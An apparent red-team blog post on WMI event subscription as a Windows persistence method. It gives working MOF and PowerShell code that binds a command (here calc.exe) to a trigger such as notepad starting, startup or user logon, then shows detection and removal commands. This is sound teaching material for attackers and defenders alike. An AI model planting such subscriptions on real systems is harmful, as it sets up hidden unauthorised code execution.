 ```yaml
---
title: "WMI Event Subscription"
date: 2023-03-23T12:48:00+03:30
tags: ['security','RedTeam', 'Persistence', 'Privilege-Escalation']
categories: ['security', 'RedTeam']
images: ['/assets/post/WMI-ES/mof.png']
description: 'In this post, we will talk about WMI event subscription and its use methods by red teams.'
---
```


Windows Management Instrumentation (WMI) event subscription is one way to establish persistence on a network.
In this post, we will talk about WMI event subscription and its use methods by red teams.

## Overview

Microsoft describes this feature as follows:
WMI contains an event infrastructure that produces notifications about changes in `WMI` data and services. WMI event classes provide notification when specific events occur.

Persistence via WMI event sharing usually requires the creation of the following three classes:

the `EventConsumer` class to store the desired command

the `__EventFilter` class to specify the event that triggers the load

the `__FilterToConsumerBinding` class to communicate between the first two classes, thus executing and triggering the connection are used together.

## Abuse

There are different ways to create a WMI event subscription. In this post, two methods, `MOF` files and `PowerShell` are examined.

### MOF

Managed Object Format (MOF) is the language used to describe Common Information Model (CIM) classes.

One approach for WMI providers is to implement new WMI classes in MOF files that are compiled into the WMI repository using Mofcomp.exe. It is also possible to create and manipulate CIM classes and instances using the COM API for WMI.

```bash
#PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
instance of CommandLineEventConsumer as $Cons
{
    Name = "Consumer-test";
    RunInteractively=false;
    CommandLineTemplate="calc.exe";
};
instance of __EventFilter as $Filt
{
    Name = "Event-test";
    EventNamespace = "root\\subscription";
    Query ="SELECT * FROM __InstanceCreationEvent Within 3"
            "Where TargetInstance Isa \"Win32_Process\" "
            "And Targetinstance.Name = \"notepad.exe\" ";
    QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding
{
     Filter = $Filt;
     Consumer = $Cons;
};
```

The above MOF file executes `calc.exe` when the `notepad.exe` process is created on the system. The MOF file can be deployed to the WMI repository by running the following command:

```
mofcomp.exe .\wmi.mof
```

![Mof File](/assets/post/WMI-ES/mof.png)

### PowerShell

In PowerShell, there are cmdlets to create a WMI event subscription, which you can see in the example below.

```PowerShell
$EventFilterName = "Event-test"
$EventConsumerName = "Consumer-test"

$Payload = "calc.exe"

$EventFilterArgs = @{
   EventNamespace = 'root/cimv2'
   Name = $EventFilterName
   Query = "SELECT * FROM __InstanceCreationEvent Within 3 Where TargetInstance Isa 'Win32_Process' And Targetinstance.Name = 'notepad.exe' "
   QueryLanguage = 'WQL'
}

Write-Host "[*] Create Filter"
$Filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $EventFilterArgs

$CommandLineConsumerArgs = @{
   Name = $EventConsumerName
   CommandLineTemplate = $Payload
}

Write-Host "[*] Create Consumer"
$Consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $CommandLineConsumerArgs

$FilterToConsumerArgs = @{
   Filter = $Filter
   Consumer = $Consumer
}

Write-Host "[*] Create FilterToConsumerBinding"
$FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs
```

The function of this powershell code is the same as the previous part, if notepad is opened, it will run the calculator.

![Powershell](/assets/post/WMI-ES/powershell.png)

Apart from this query, we can write other useful queries, for example define filters for `Startup` or `UserLogon`.

```sql
# Startup

SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325

# UserLogon

SELECT * FROM __InstanceCreationEvent WITHIN 15 WHERE TargetInstance ISA 'Win32_LogonSession' AND TargetInstance.LogonType = 2
```

## Detection
There are several ways to detect pre-recorded events. One of these ways is to use PowerShell cmdlets to display logged events.

```PowerShell
Get-WMIObject -Namespace root/Subscription -Class CommandLineEventConsumer
```
![Powershell](/assets/post/WMI-ES/consumer.png)
```powershell
Get-WMIObject -Namespace root/Subscription -Class __EventFilter
```
![Powershell](/assets/post/WMI-ES/filter.png)
```PowerShell
Get-WMIObject -Namespace root/Subscription -Class __FilterToConsumerBinding
```
![Powershell](/assets/post/WMI-ES/bind.png)

## Removal
You can delete created events and filters using the following commands.

> The names of the created events and filters may be different

```PowerShell
#Remove Event Filters

Get-WMIObject -Namespace root/Subscription -Class __EventFilter -Filter "Name='Event-test'" | Remove-WmiObject -Verbose

#Remove Consumers

Get-WMIObject -Namespace root/Subscription -Class CommandLineEventConsumer -Filter "Name='Consumer-test'" | Remove-WmiObject -Verbose

#Remove Bindings

Get-WMIObject -Namespace root/Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%test%'" | Remove-WmiObject -Verbose
```

## References

* [Receiving a WMI Event](https://learn.microsoft.com/en-us/windows/win32/wmisdk/receiving-a-wmi-event)
* [Managed Object Format (MOF)](https://learn.microsoft.com/en-us/windows/win32/wmisdk/managed-object-format--mof-)
* [Persistence – WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)
* [An intro into abusing and identifying WMI Event Subscriptions for persistence](https://in.security/2019/04/03/an-intro-into-abusing-and-identifying-wmi-event-subscriptions-for-persistence/)
* [Event Triggered Execution: Windows Management Instrumentation Event Subscription ](https://attack.mitre.org/techniques/T1546/003/)
